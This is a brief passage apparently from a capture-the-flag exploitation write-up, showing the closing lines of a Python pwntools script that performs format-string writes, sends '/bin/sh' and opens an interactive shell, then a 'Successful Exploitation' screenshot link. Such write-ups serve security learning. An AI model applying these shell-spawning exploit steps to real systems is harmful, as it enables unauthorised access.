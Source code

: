 ```python
# Execute the format string writes
format_string.execute_writes()

# Get our flag!
io.sendline(b'/bin/sh')
io.interactive()
```

<figure><img src="../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption><p>Successful Exploitation</p></figcaption></figure>

